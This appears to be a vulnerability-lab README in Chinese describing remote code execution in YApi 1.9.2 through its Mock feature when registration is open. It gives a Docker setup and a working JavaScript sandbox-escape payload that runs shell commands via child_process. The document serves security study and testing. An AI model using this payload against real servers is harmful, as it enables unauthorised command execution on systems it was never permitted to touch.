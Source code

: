 # YApi开放注册导致RCE

[中文版本(Chinese version)](README.zh-cn.md)

YApi是一个API管理工具。如果注册功能开放，攻击者可以使用Mock功能执行任意代码。

参考链接：

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## 漏洞环境

执行如下命令启动一个YApi 1.9.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到YApi首页。

## 漏洞复现

首先，注册一个用户，并创建项目和接口：

![](1.png)

![](2.png)

接口中有一个Mock页面可以填写代码，我们填写包含恶意命令的代码：

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```

![](3.png)

然后，回到“预览”页面可以获得Mock的URL：

![](4.png)

打开这个URL，即可查看到命令执行的结果：

![](5.png)
